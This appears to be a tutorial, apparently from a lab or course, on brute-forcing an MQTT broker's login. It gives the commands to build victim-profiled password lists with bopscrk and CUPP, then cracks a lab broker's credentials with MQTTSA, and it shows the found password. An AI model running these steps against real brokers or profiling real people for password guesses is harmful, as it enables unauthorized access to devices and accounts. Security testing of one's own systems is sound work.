 ### Brute Force MQTT

This only works with MQTT over 1883 (Which is by the way not recommended for secure implementations)
  
- Generate passwords to brute force
    - Option 1: Use [bopscrk (Before Outset PaSsword CRacKing)](https://github.com/r3nt0n/bopscrk)
        
        - Clone the repo
            ``` bash
            git clone https://github.com/r3nt0n/bopscrk.git
            ```
        - Change directory
            ``` bash
            cd bopscrk
            ```
        - Chreate a .txt file with passwords (python 3 required)
            ``` bash
            python3 bopscrk.py -w micro,foo,raspberry,fab,password,1,12,123,1234,12345,123456,1234567,12345678,123456789
            ```

    - Option 2: Use [CUPP - Common User Passwords Profiler](https://github.com/Mebus/cupp) to generate passwords:
    
        - Clone the repo
            ``` bash
            git clone https://github.com/Mebus/cupp.git
            ```
        - Change directory
            ``` bash
            cd cupp
            ```
        - Create passwords (Python 3 required)
            ``` bash
            python3 cupp.py -i
            ```
        - Interactive questionsaire mode
            ``` bash
             ___________ 
               cupp.py!                 # Common
                  \                     # User
                   \   ,__,             # Passwords
                    \  (oo)____         # Profiler
                       (__)    )\   
                          ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                                        [ Mebus | https://github.com/Mebus/]
            
            
            [+] Insert the information about the victim to make a dictionary
            [+] If you don't know all the info, just hit enter when asked! ;)
            
            > First Name: Max 
            > Surname: Mustermann
            > Nickname: 
            > Birthdate (DDMMYYYY): 01021995
            
            
            > Partners) name: 
            > Partners) nickname: 
            > Partners) birthdate (DDMMYYYY): 
            
            
            > Child's name: 
            > Child's nickname: 
            > Child's birthdate (DDMMYYYY): 
            
            
            > Pet's name: Gringo
            > Company name: Campus
            
            
            > Do you want to add some key words about the victim? Y/[N]: foo,microfab,raspberrypi 
            > Do you want to add special chars at the end of words? Y/[N]: Y
            > Do you want to add some random numbers at the end of words? Y/[N]:Y
            > Leet mode? (i.e. leet = 1337) Y/[N]: N
            
            [+] Now making a dictionary...
            [+] Sorting list and removing duplicates...
            [+] Saving dictionary to max.txt, counting 5928 words.  
            ```
- Brute Force Client
    - Clone the [MQTTSA](https://github.com/stfbk/mqttsa) repo
        ``` bash
        git clone https://github.com/stfbk/mqttsa.git 
        ```
    - Change directory
        ``` bash
        cd mqttsa
        ```
    - Execute brute force on Broker:
        ``` bash
        python3 mqttsa.py 192.168.88.100 -p 1883 -u pubclient -w password.txt
        ```
    - Output - Our user:password (pubclient:microfoo123) was found. We could now publish data to the broker using these credentials
        ``` bash
        Performing brute force (press ctrl+c once to skip)
        trying: pubclient, micro
        trying: pubclient, raspberry
        trying: pubclient, password
        trying: pubclient, microfoo123
        trying wildcard username: #
        Attempting the connection with: [pubclient,microfoo123]
        10 seconds connection timeout (press ctrl+c once to skip)
        Connected successfully using password found with brute force.
        ```
    - We also get a .pdf report lists all the information from our attack
